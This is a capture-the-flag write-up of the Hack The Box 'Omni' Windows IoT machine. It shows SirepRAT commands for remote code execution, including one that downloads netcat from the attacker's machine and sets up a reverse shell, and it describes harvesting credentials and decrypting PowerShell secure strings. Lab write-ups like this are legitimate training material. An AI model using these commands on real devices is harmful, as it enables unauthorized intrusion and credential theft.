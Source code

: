 ```yaml
---
layout: post
title: "Hack The Box - Omni"
date: 2021-01-07
---
```

<div markdown="1" class="box">
![](/image/omni/omniThumbnail.png)

Welcome back! This is my Hack The Box Omni Writeup, an easy rated box (?)

## Summary :
+ nmap
+ SirepRAT
+ Windows Device Portal
+ PowerShell decrypt


## Enumeration :  

At first i need to see what port that available in this box.Interesting.... its a Windows IOT box, lets check the port 8080.

![](/image/omni/nmap.JPG)

I need sum credential, where to get that thing? I've tried the default credentials (Administrator:p@ssw0rd) but that didn't work, Then i do some enumeration for Windows IOT exploit and i got SirepRAT for RCE.
*Check this GitHub : **[SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT)**

![](/image/omni/web1.JPG)

SirepRAT can upload and run arbitrary code, lets use that features to upload netcat :3

Upload :
```python
python SirepRAT.py [machineIP] PutFileOnDevice --remote_path "C:\Windows\System32\uploaded.txt" --data "Hello IoT world!"
```

Run Arbitrary Code :
```python
python SirepRAT.py [machineIP] LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\hostname.exe"

```
Upload NetCat with this command : 

```python
python SirepRAT.py [HTBboxIP] LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-WebRequest [AttackingMachineIP]/nc64.exe -OutFile C:\\Windows\\System32\\nc64.exe" 
```

and don't forget to make your own python server (either with python2 or python3).


+ python2 -> python -m SimpleHTTPServer [port]
+ python3 -> python3 -m http.server [port]

![large](/image/omni/uploadNC.JPG)

After that, run the nc and set the listener.

![large](/image/omni/runNC.JPG)

And i got the reverse shell. After diggin in the box, i got this credentials on C:\Program Files\WindowsPowerShell\PackageManagement and list the hidden file with **ls -force** or **dir /ah** (haven't tried it yet), take a note of this credentials and use it to login in the webpage.

![](/image/omni/exploit1.JPG)

![](/image/omni/creds1.JPG)

Logged in to the website, and i can run commands. Lets run our nc again.

![](/image/omni/runCommand.JPG)

## User Flag :

Time to find the user flag, but in C:\Users i can't find the user flag. Just enumerate other available disk with **gdr -PSProvider 'FileSystem'** and there is U: disk and the encrypted user flag.

![](/image/omni/diskList.JPG)

![](/image/omni/encryptedUser.JPG)

But how to decrypt the encrypted user flag? then i found this website **[link](https://devblogs.microsoft.com/scripting/decrypt-powershell-secure-string-password/)** to decrypt the user flag. 

![](/image/omni/userFlag.JPG)

## Root Flag :

Remember on the previous enumeration that i got 2 credentials for app and administrator? use the administrator credentials to get the root flag and repeat the previous steps. *by the way, whoami doesn't work in this box. So use $env:username 

![](/image/omni/web2.JPG)

![](/image/omni/encryptedRoot.JPG)

![](/image/omni/rootFlag.JPG)

That's it, i've learned many things in this box such as how to exploit a Windows IOT with SirepRAT and decrypt Powershell password. 

Fin.

</div>



